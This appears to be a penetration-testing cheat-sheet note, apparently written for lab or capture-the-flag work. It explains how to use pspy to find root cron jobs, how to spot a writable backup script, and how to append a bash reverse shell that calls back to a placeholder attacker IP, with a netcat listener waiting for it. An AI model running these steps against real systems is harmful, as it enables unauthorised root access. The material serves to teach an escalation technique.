

Find Running Cronjobs (Pspy)
Pspy
We can use Pspy to see commands run by other users, cron jobs, etc in real time. It works by scanning procfs
.
Github: https://github.com/DominicBreuker/pspy
Download:
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy32
python3 -m http.server
wget "http://10.10.15.123:8000/pspy32" #from the target
chmod +x pspy32
1. Execute on the target pspy
The -pf flag tells the tool to print commands and file system events and -i 1000 tells it to scan profcs every 1000ms (or every second).
Wait some minutes waiting if some commands are running
./pspy32 -pf -i 1000
SEARCH FOR:
1) commands that are running every some time
We can see that every 2 minute is running “/bin/bash /dmz-backups/backup.sh”
2) Commands running as UID=0 (root) or an id that is not of our user (command “id”)

2. Search for the file and its permissions
ls -l [file]
we can see that we have write permission on it!
Check the content
3. Modify the script
Add a Bash One liner reverse shell: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
bash -i >& /dev/tcp/[ATTACKER_IP]/[ATTACKER_PORT] 0>&1
4. Set a listener on the attacker on the port chosen
nc -nvlp [ATTACKER_PORT]
after some time we should have a reverse shell